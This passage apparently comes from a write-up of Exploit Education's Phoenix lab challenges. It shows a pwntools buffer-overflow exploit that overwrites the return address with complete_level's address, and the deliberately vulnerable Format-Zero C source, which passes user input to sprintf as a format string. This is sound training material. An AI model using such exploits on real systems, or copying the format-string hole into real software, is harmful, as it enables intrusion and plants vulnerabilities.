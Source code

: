 or

```python
from pwn import *

p = process('./vuln')
e = ELF('./vuln')

# variables
BUF_RIP = 88 # bytes from start of buffer to $rip
complete_level = e.symbols['complete_level'] # address of complete_level

# payload
payload = b'A'*BUF_RIP # padding to $rip
payload += p64(complete_level) # address of complete_level in $rip
```


[stackfoursuccess](../Images/PhoenixExploit/stackfoursuccess.JPG)
---
### Format-Zero
Exploit the Format String Vulnerability to change the value of `changeme`.

Source Code:
```c
#define BANNER "Welcome to Format-Zero, brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```
